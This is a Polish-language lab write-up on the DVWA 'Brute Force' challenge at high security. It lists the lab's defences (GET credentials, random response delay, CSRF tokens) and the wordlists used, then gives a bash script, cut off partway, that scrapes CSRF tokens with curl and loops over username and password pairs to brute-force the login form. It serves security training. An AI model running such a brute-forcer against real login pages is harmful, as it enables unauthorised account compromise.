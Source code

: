 
<br/>

<br/>
<br/>

## DVWA Brute Force #3 - High
Na wysokim poziomie trudności musimy mieć na uwadze następujące cechy laboratorium:
* Dane logowania są przesyłane w parametrach GET
* Odpowiedzi będą przychodziły z dodanym losowym opóźnieniem od 0s do nawet 3s
* Każde żądanie musi zawierać ważny token CSRF

![alt text](https://github.com/249064/CBE-BAW-2023/raw/main/res/image_2023-06-08_163132391.png "Odpowiedzi przychodzące z losowym opóźnieniem dla kolejnych prób")

#### Dane wejściowe:
| No. | Opis | Typ | Przykładowa wartość |
|------|-------------|------|---------------|
| 1 | DVWA base url | url | 10.10.10.10|
| 2 | plik z nazwami użytkownika | plik | /usr/share/seclists/Usernames/top-usernames-shortlist.txt|
| 3 | plik z hasłami | plik | /usr/share/wordlists/rockyou.txt|

#### Skrypt w `bash` 

```bash
#!/bin/bash

# Function to display usage instructions
display_usage() {
  echo "Usage: $0 <base_url> <username_file> <password_file>"
  echo "Description: This script attempts to find a valid combination of username and password by brute-forcing a login form."
  echo "Arguments:"
  echo "  <base_url>      Base URL of the target application"
  echo "  <username_file> Path to a file containing a list of usernames to try"
  echo "  <password_file> Path to a file containing a list of passwords to try"
}

# Check if the required number of arguments are provided
if [[ $# -ne 3 ]]; then
  display_usage
  exit 1
fi

get_csrf() {
  csrf=$(curl -s -x "http://127.0.0.1:8080" -c dvwa.cookie "$1/login.php?security=high&Login=Login&username=admin&password=password" | awk -F 'value=' '/user_token/ {print $2}' | cut -d "'" -f2)
  sed -i 's/impossible/high/' dvwa.cookie
  curl -s -b dvwa.cookie -d "username=admin&password=password&user_token=${csrf}&Login=Login" "$1/login.php"
}

find_valid_combo() {
  local csrf=$1
  while IFS= read -r password; do
    while IFS= read -r username; do
      echo -ne "\r\033[0KTrying $username:$password"
```